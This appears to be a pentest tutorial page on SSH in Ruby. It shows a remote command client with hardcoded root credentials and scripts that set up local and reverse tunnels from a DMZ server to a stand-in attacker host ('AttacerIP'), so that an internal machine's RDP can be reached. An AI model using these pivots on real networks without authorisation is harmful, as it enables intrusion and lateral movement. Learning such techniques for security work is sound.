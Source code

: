 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```


## Simple SSH client
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

more
https://gist.github.com/KINGSABRI/2860989

## SSH Tunneling




### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

#### Local Port Forwarding

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ltunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH port forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```

Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```

### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```








<br><br><br>
---





